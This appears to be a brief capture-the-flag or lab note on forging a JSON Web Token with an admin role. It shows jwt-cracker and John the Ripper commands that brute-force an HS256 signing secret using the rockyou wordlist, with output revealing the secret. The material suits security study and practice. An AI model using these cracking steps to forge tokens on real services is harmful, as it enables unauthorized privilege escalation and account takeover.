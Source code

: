 ### JSON Web tokens

---

JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. Use - authentication, session handling, and access control mechanisms.

Task : We need to generate a JWT token having an admin role instead of having a user. Finding the key used to sign is important otherwise the signature for a different payload won't be correct.

Sometimes the JWT is encrypted with some hashing algorithm, we need to break it using 'john the ripper' or other bruteforcing tool and reconstruct the jwt.

```py
% jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTMzODUzfQ.aDP5hVVQQN2uFQL15oTBG1B83j8MnQu0f7IRxodKm24 -d wordlists/rockyou.txt
john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

SECRET FOUND: banana
Time taken (sec): 0.123
Total attempts: 20000
```
